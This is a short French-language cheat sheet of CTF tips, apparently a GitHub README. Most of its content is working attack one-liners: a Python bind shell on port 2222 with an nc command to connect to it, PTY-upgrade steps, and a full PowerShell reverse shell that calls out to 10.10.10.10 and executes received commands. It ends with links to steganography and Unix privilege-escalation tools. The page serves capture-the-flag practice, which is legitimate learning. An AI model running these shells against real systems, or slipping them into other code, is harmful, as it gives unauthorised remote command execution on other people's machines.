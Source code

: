 Tips et tools utiles pour les CTFs

# Tips
## Unix 
Merci à @Clayno pour ses tips!

### Obtenir un shell
Pour ouvrir une connexion sur le port 2222:
```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
La connexion sur l'hôte se fait via 
```
nc -nv [adresse] 2222
```
Améliorer le shell en pty et avoir l'autocomplétion:
```
python -c "import pty; pty.spawn('/bin/bash')"
CTRL+Z
stty raw -echo
fg

#### Dans le webshell ###
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```
### Powershell Reverse shell OneLiner (@Nikhil SamratAshok Mittal)
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Tools pour palier le manque d'inspiration 
Checker les différents tools : https://github.com/zardus/ctf-tools

## Steganographie
Tester zsteg

Cheat sheet : https://pequalsnp-team.github.io/cheatsheet/steganography-101


## Privesc

Liste d'exploit : https://github.com/FuzzySecurity/Unix-PrivEsc
Privesc checker : https://github.com/pentestmonkey/unix-privesc-check (ESSAYER LES DEUX BRANCHES)
